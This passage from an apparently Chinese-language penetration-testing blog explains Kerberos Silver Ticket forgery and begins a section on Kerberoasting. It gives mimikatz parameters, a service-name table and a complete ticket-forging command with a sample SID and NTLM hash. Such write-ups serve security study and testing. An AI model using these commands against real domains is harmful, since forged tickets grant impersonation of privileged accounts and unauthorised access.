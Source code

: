 [![Golden_Ticket2](https://1sparrow.com/2018/02/19/%E5%9F%9F%E6%B8%97%E9%80%8F%E7%9B%B8%E5%85%B3/Golden_Ticket2.png)](https://1sparrow.com/2018/02/19/%E5%9F%9F%E6%B8%97%E9%80%8F%E7%9B%B8%E5%85%B3/Golden_Ticket2.png)

## Silver Ticket (白银票据)

简义 : 发生在上面的过程5，可以伪造TGS(**前提是获取服务账号的口令散列值**)，宣称自己是域内任何账号，例如域管。

Silver Ticket生成时指定了相关的服务名，因此只能用来访问相应的服务，所以局限性比较大，没有golden ticket好用

所需条件(mimikatz生成silver ticket)

```
1. /domain
2. /sid            ( S-1-5-21-1239069908-882060383-2558203358-500 注意:不要後面的-500  )
3. /target:域控全称
4. /service:目标服务器上面的kerberos服务，此处为cifs
5. /rc4:域控的计算机账户ntlm hash
6. /user:要伪造的用户名(可以不存在也可是存在的)
7. mimikatz.exe "kerberos::golden /domain:域 /sid:SID /target:域全称 /service:要访问的服务 /rc4:NTLM /user:silver /ptt"即可生成并导入Silver Ticket
```

常用的服务名有以下:

```
服务名称                    同时需要的服务
WMI                        HOST、RPCSS
PowerShell Remoting        HOST、HTTP
WinRM                    HOST、HTTP
Scheduled Tasks            HOST
Windows File Share        CIFS
LDAP                    LDAP
Windows Remote Server    RPCSS、LDAP、CIFS
```

用法

```bash
kerberos::golden /domain:demo.local /sid:S-1-5-21-1239069908-882060383-2558203358 /target:owa2010dc.demo.local /service:cifs /rc4:aac6185241728f7685c8d50c61573b75 /user:silver /ptt
(/rc4:aac6185241728f7685c8d50c61573b75 這裏我用的是owa2010dc$机器賬戶的NTLM hash
```

[![Silver_Ticket1](https://1sparrow.com/2018/02/19/%E5%9F%9F%E6%B8%97%E9%80%8F%E7%9B%B8%E5%85%B3/Silver_Ticket1.png)](https://1sparrow.com/2018/02/19/%E5%9F%9F%E6%B8%97%E9%80%8F%E7%9B%B8%E5%85%B3/Silver_Ticket1.png)

## Kerberoast (Kerberos TGS服务票据(Service Ticket)离线爆破)

简义 : 发生在上面的过程3,4, **目标的服务账户的服务器主体名称(SPN)请求一个Kerberos服务票据 (TGS) 。**

这里会采用一个有效的用户认证票据(TGT)来请求一个或几个运行在服务器上的目标服务票据。

域控不会检测用户是否真正连接到了这些资源上(即使用户可能真的有权限访问)。

域控会在活动目录中查找SPN并且用SPN关联的用户账户把票据进行加密，以此赋予用户访问服务的权限。

